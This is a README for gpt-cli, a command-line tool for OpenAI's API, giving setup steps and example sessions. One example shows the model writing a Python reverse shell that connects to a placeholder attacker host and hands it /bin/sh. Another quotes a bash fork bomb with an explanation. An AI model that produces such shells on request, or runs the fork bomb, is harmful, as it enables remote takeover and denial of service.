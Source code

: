 # gpt-cli

This is a command line tool used for interacting with OpenAI's API.

Default model is `gpt-3.5-turbo` (but you can change it to whatever you want).

This tool requires the following environment variables to be set:

- `OPENAI_API_KEY`

You can further tweak functionality by setting the following additional environment variables:

- `OPENAI_MODEL`
- `OPENAI_DEFAULT_PROMPT`
- `OPENAI_LOGFILE`
- `OPENAI_TEMPERATURE`
- `OPENAI_MAX_TOKENS`

All environment variables can be set by filling in values from `example.env`, renaming that file to `.env`, and running `./bin/gpt3 'Your prompt here'`.

There is also a `gpt4` command in case you set your model to GPT-4 and feel stupid running the `gpt3` command.

Alternately, you can pass the environment variables  on the command line using something like this:

```
OPENAI_API_KEY=foo ./bin/gpt3 'Your prompt here'
```

If installing from PyPi, set the `OPENAI_API_KEY` in your `~/.bashrc` or `~/.zshrc`, and run as follows:

```
gpt3 'Your prompt here'
```

## Installation (PyPi) - set variables in rc files:

`python3 -m pip install gpt-cli`

## Installation (local) - set variables in .env:

```
git clone https://github.com/phx/gpt-cli
cd gpt-cli
python3 -m pip install -r requirements.txt
```

### Examples:

If given the `-p` or `--print` option, it will display the full prompt and response.


```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  gpt3 --print 'Write python script to create reverse shell.'
----------------------------------------------------------------------
Prompt:
Write python script to create reverse shell.

Answer:
import socket
import subprocess# Create a socket
s = socket.socket()# Connect to the attacker machine
s.connect(("attacker_ip", attacker_port))# Create a subprocess to execute a shell
proc = subprocess.Popen(["/bin/sh", "-i"], stdin=s.fileno(), stdout=s.fileno())# Keep the connection alive
while True:
    data = s.recv(1024)
    if data == "exit":
        break
    proc.stdin.write(data)
    proc.stdout.flush()# Close the connection
s.close()
----------------------------------------------------------------------
```

```
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt3 -p 'Who is Gregory Washingheimer Van Fleet?'
----------------------------------------------------------------------
Prompt:
Who is Gregory Washingheimer Van Fleet?

Answer:
Unknown.
----------------------------------------------------------------------
╭─phx@bigboi ~/git/gpt-cli  ‹master*› 
╰─➤  OPENAI_DEFAULT_PROMPT='Do not give nonsense answers. If you do not know that your answer is factual, respond with "Unknown. "' gpt3 --print 'Who is John Adams?'                     
----------------------------------------------------------------------
Prompt:
Who is John Adams?

Answer:
John Adams was the second President of the United States, serving from 1797 to 1801.
----------------------------------------------------------------------
```

When taking redirected or piped input from STDIN, it will only output the answer.

```
╭─phx@birdbox ~/git/gpt-cli ‹master●›
╰─$ echo 'Tell me what this code does: :(){ :|:& };:' | bin/gpt3

This code is a fork bomb, a type of denial-of-service attack that continuously replicates itself to consume system resources and eventually cause the system to become unresponsive.

Here's a breakdown of what the code does:

1. `:(){ ... };:` - This defines a function named `:` that contains the code within the curly braces `{}` and then calls the function `:`.

2. `:|:` - This is the recursive part of the fork bomb. It pipes the output of the function `:` back into the function itself, causing it to continuously replicate.

3. `&` - This runs the function in the background, allowing it to continue replicating without blocking the terminal.

When this code is executed, it will rapidly spawn new instances of the function `:` until the system's resources are exhausted, leading to a system crash or unresponsiveness. It is important to never run this code on a system as it can cause serious damage.
```

